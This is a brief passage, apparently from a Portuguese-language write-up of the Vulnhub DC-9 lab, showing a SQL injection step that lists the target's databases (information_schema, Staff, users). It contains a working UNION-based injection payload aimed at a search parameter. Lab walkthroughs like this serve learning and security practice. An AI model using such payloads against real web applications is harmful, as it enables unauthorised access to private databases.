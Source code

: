 ![](/assets/img/Vulnhub/DC-9/dados-db.png)




* Listando os banco de dados existentes: **information_schema**, **Staff** e **users**

```bash
search=Fred' union select 1,2,3,4,5,table_schema from information_schema.columns #
```

![](/assets/img/Vulnhub/DC-9/listagem-dbs.png)
